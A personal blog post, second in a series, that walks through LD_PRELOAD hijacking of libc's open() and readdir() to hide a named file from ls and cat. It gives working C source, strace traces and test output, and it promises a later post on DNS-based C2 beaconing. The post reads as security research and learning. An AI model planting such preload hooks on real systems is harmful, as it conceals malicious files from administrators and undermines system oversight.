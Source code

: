 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 2)"
pubDate: "2022-10-04"
description: "More experiments with dynamic linker hijacking techniques."
tags:
  - C
  - Dynamic Linker
  - LD_PRELOAD
toc: true
math: true
heroImage: '../../assets/dns-2.png'
---
```


## Journey Post
This post is a something that I call "journey post", this follows my process of researching and implementing the solution for the problem (or the challenge). I will wrap/pre-fix parts of the post with html-like `<journey>` so that you can skip it if you are in a hurry.

---

## Overview

In the last post I've described how I hid a file from all the sys calls that are using `readdir`. In this post I will try to hide it from the `cat` command. Let's first examine/reverse engineer how the `cat` command works internally.

Naturally I would start with a simple [strace](https://man7.org/linux/man-pages/man1/strace.1.html) which will trace the system calls and signals that the command uses. 

```console
$ which cat
/usr/bin/cat
$ strace /usr/bin/cat syl.lys
execve("/usr/bin/cat", ["/usr/bin/cat", "syl.lys"], 0x7ffca9c17508 /* 68 vars */) = 0
...
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory) // WINK WINK, not yet
...
openat(AT_FDCWD, "syl.lys", O_RDONLY) = 3
```

The most interesting sys call in the output is `openat` so lets see the source code of [openat.c](https://github.com/coreutils/gnulib/blob/master/lib/openat.c#L182). Here we can see the `char const *file` that variable is what holds our filename (look at the `strace` output). After that, I followed our steps in the last [post](dynamic-linker-hijacking-experiments) by implementing a function with the same signature and wrapping the original one. 

`<journey>`


After a few tries I was quick to realize that there is some issue. The wrapper that I've implemented didn't work, or at least didn't work all the time. I've tested it out with a simple program that would just call it and in there it worked, I didn't quite get why it does what it does but I found the following discussions:

- [intercepting the openat() system call for GNU tar](https://stackoverflow.com/questions/9161116/intercepting-the-openat-system-call-for-gnu-tar)
- [How to find out what functions to intercept with LD_PRELOAD?](https://stackoverflow.com/questions/49314057/how-to-find-out-what-functions-to-intercept-with-ld-preload)

As it turns out (my best guess) the sys call that I am trying to override `openat` is probably not the one that the `cat` uses. I decided to look at the source code for [cat.c][https://github.com/coreutils/coreutils/blob/master/src/cat.c] and search for everything that has `*open*` in it.

I found on [line 686](https://github.com/coreutils/coreutils/blob/master/src/cat.c#L686) a call to the `open`. An important note here is that this `open` call here is not the sys call but the call in the std lib which will call the related system call for us. So I've decided to change my approach and override the `open` function instead.

`</journey>`

How does the [open function](https://man7.org/linux/man-pages/man2/open.2.html) work? I wouldn't try to explain something that I am hardly good at so it is best for you to read the man pages for that one.

Let's start by copying the signature of the [open function](https://github.com/coreutils/gnulib/blob/master/lib/open.c#L59) and wrap it.

```c
static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

In this code block I've wrapped the original `open` function with our implementation of the `open` function. What is left now is to add our "malicious" part to it.

```c
if (strcmp(filename, MALICIOUS_FILE) == 0) 
{
    errno = ENOENT; // Setting up the error to be ERROR NO ENTRY(ENOENT)
    return -1; // Returning -1 (failure)
}
```

And lastly all together

[intercept_open.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/intercept_open.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{   
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

Let's see if its working...

```console
$ ls
intercept_open.so  syl.lys
$ LD_PRELOAD=./intercept_open.so cat syl.lys
cat: syl.lys: No such file or directory
```

As you can see the `cat` command returns `No such file or directory` which is exactly what we are aiming for.

## Combining it with our `readdir`

We created a malicious `open` function that wraps the original one from the standard lib, lets now combine it with the `readdir` from the previous post into a single shared object.

[malicious.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/malicious.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <dirent.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;
struct dirent *(*original_readdir)(DIR *dirp) = NULL;

int open (const char *filename, int flags, ...)
{
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}

struct dirent *readdir(DIR *dirp) 
{
    struct dirent *ret;
    original_readdir = dlsym(RTLD_NEXT, "readdir");

    while((ret = original_readdir(dirp))) {
        if(strstr(ret->d_name, MALICIOUS_FILE) == 0)
            break;
    }
    return ret;
}
```

Let's test it out, supposedly we shouldn't get entries from `ls` and `cat`.

```console
$ touch syl.lys
$ ls
intercept_open.c  malicious.c  malicious.so  syl.lys
$ export LD_PRELOAD=./malicious.so
$ ls
intercept_open.c  malicious.c  malicious.so  README.md
$ cat syl.lys
cat: syl.lys: No such file or directory
```

# End
With that I am concluding this post, again if you reached here thank you so much it means a lot! In the next part I will get deeper and make our malicious file to be running and beaconing a malicious C2 server, we will look through some C2 communication examples using the DNS protocol so that we can remain under the radar(or the firewall ^^).

[Full Source Code](https://github.com/syrull/evasive_techniques/tree/main/Part_2_open)

# Resources

This post wouldn't be possible without:

- https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-5.html
- https://linux.die.net/man/2/openat
- And some kind StackOverflow users! 